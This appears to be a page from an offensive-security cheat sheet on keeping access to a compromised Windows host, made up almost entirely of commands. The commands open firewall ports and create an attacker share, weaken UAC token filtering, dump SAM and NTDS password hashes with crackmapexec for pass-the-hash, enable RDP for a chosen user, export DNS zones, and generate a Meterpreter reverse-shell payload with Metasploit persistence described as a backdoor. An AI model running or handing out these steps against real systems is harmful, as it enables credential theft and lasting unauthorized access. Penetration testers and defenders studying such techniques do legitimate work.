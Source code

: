 {% code overflow="wrap" fullWidth="true" %}
```bash
# Local Admin rights needed
# GENERATE NEW FIREWALL RULE
netsh advfirewall firewall add rule name="Samba Port" protocol=TCP dir=in localport=445 action=allow
netsh advfirewall firewall add rule name="Samba Port" protocol=TCP dir=out localport=445 action=allow
# CHECK IT WITH NMAP
nmap -p 445 $IP
# CREATE NEW SHARE
C:\> net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL
C:\>cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
# CHECK IF IT SAYS PWNED!
cme smb 10.10.10.8 -u 'antz' -p 'antz123!'
# DUMP NTLM HASHES OF ACTIVE DIRECTORY TO USE PASS THE HASH
cme smb 10.10.10.8 -u 'antz' -p 'antz123!' --sam
cme smb 10.10.10.8 -u 'antz' -p 'antz123!' --ntds vss
# ENABLE RDP
netsh advfirewall firewall add rule name="RDP Port" protocol=TCP dir=in localport=3389 action=allow
netsh advfirewall firewall add rule name="RDP Port" protocol=TCP dir=out localport=3389 action=allow
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
net localgroup "Remote Desktop Users" antz /add
```
{% endcode %}

## DNS Zones

{% code overflow="wrap" %}
```bash
# Once we compromised the box, we can check for other DNS records and IPs
PS> Export-DNSServerZone -Filename domain.com -Name DOMAIN.COM # output file will be on c:\windows\system32\dns
```
{% endcode %}

## Metasploit

{% code overflow="wrap" %}
```bash
# First we generate a Meterpreter shell using msfvenom (check arch x86/x64)
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe
# Then we use multi/handler on Metasploit to get the shell
msf > use exploit/multi/handler
# We run the executable to get a Meterpreter shell
meterpreter >
# This module will send a payload every 10 seconds in default
msf > use exploit/windows/local/persistence 
msf > set session 1 s#et the session to your background meterpreter session
msf > run
# If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler
```
{% endcode %}

